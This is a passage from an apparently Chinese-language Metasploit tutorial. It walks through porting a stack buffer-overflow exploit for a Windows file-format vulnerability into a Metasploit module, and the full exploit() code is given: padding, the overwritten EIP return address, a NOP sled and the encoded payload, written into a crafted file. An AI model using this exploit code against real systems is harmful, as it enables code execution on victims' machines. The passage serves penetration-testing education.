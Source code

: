 我们将从原始利用脚本的前四个字节开始，即`$magic = "Mjik"`;

它将在我们的模块中被替换为`sploit = "Mjik"`。

然后，我们继续构建我们的缓冲区。由于我们已经找到了`EIP`被覆盖的位置，我们可以将重复的返回地址值替换为：

```
sploit << rand_text_alpha_upper(1028);
sploit << [target.ret].pack('V');

```

然后，我们将添加我们的 nop 滑块。因此，利用脚本的这部分将更改为模块中的以下行：

```
sploit << "\x90" * 45

```

最后，我们构建完整的 shellcode：

```
sploit << payload.encoded

```

最后，我们可以将这些脚本行组合在`exploit()`函数下。

```
def exploit
sploit = "Mjik"
sploit << rand_text_alpha_upper(1028)
sploit << [target.ret].pack('V')
sploit << "\x90" * 45
sploit << payload.encoded
galan = sploit
print_status("Creating '#{datastore['FILENAME']}' file ...")
file_create(galan)
end 
```

这是一个简单明了的演示，说明了我们如何将现有的利用转换为 Metasploit 模块。这个过程的难度水平可能因利用而异。了解更多的最佳方法是查看 Metasploit 库中可用的利用模块。在下一个示例中，我们将学习如何将这个利用模块移植到框架中，以便我们可以将其用于渗透测试。

# 移植和测试新的利用模块

在上一个示例中，我们学习了如何使用现有的概念来开发 Metasploit 的完整利用模块。在这个示例中，我们将把模块保存在一个合适的位置，然后测试它，看看是否一切顺利。

## 准备工作

非常重要的是要注意我们将存储利用模块的文件夹。这可以帮助您跟踪不同的模块，并且还可以帮助框架了解基本模块的使用。现在您有了完整的模块脚本，让我们找一个合适的位置来保存它。

## 如何做...

由于这是一个利用模块，针对影响特定文件格式的 Windows 操作系统，我们将不得不相应地选择模块位置。查看`modules/exploits/windows`目录，您可以找到一个特定的文件夹用于`fileformat`利用模块。这是我们可以保存模块的位置。让我们将其保存为`galan_fileformat_bof.rb`。
